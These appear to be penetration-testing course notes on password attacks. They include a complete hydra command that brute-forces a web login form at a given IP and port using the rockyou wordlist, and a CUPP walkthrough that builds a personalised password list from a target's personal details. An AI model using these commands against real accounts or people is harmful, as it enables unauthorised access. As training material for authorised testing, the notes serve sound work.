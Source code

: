 
<a id="org36920eb"></a>

### Password Wordlist

The most common username administrators use is `admin`. In this case, we specify this username for our next attempt to get access to the admin panel.

    hydra -l admin -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -f 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"


<a id="org180eb2e"></a>

# Service Authentication Attacks


<a id="orgbc8b1a6"></a>

## Personalized Wordlists

To create a personalized wordlist for the user, we will need to collect some information about them.


<a id="org3bddf93"></a>

### CUPP

<span class="underline">Installing</span>

    apt install cupp -y

We run it in interactive mode by specifying the `-i` argument, and answer the questions, as follows:

    cupp -i
    
      ___________
         cupp.py!                 # Common
            \                     # User
             \   ,__,             # Passwords
              \  (oo)____         # Profiler
                 (__)    )\
                    ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                                  [ Mebus | https://github.com/Mebus/]
    
    
      [+] Insert the information about the victim to make a dictionary
      [+] If you don't know all the info, just hit enter when asked! ;)
    
      > First Name: William
      > Surname: Gates
      > Nickname: Bill
      > Birthdate (DDMMYYYY): 28101955
    